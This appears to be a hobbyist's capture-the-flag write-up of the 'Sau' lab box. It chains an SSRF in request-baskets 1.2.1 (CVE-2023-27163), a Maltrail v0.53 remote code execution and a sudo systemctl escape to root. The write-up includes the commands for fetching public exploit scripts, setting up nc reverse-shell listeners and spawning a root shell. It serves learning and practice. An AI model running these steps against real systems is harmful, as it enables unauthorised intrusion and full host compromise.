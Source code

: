 # Sau

Nmap scan

<figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

## Site scan

Let's check out the site on port 55555

<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

We see it is running request-baskets version 1.2.1 after googling it is vulnerable to CVE-2023-27163

## CVE-2023-27163

1. First we get the exploit "wget https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/main/CVE-2023-27163.sh"
2. Next we set up nc on port 8000
3. Then run the exploit
4. WE ARE IN!!!
5. Well not rlly all we got is the webserver to request our server no reverse shell...&#x20;

Leason learned don't get tunnel vision and enumerate properly before trying to exploit.

## Deeper enumeration

I ran a gobuster scan on dns and dir mode but found nothin interesting. On the main page there is a login that asks for a master API key I tried interspting my own auth header and using that to no  avail.

What I then rembered was that port 80 was filtered so wouldn't it be great if we could get our basket to request that port locally. So i set my basket to forward to http://127.0.0.1:80 and voilla.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

A sidenot I remeber watching an Ippsec video where he said using 127.0.0.1 is better than using localhost as localhost ca run into IPV6 problems.

We find it's running maltrail v0.53

## Exploit

To get RCE we do the following steps

1. curl -o exploit.py [https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py](https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py)
2. nc -lvnp 9000
3. python3 exploit.py <>MY\_IP> \<PORT> http://\<IP:PORT>/\<BASKET>
4. And we get the user flag!!

## Priv esc

Running sudo -l we see we can run: /usr/bin/systemctl status trail.service

This [link ](https://gtfobins.github.io/gtfobins/systemctl/)shows use some exloits. Let try the third one as its shortest.

Running the command we found with sudo -l and then !/bin/bash as outlined in GTFOBins.

WE GET ROOT!!

PAWNEDD
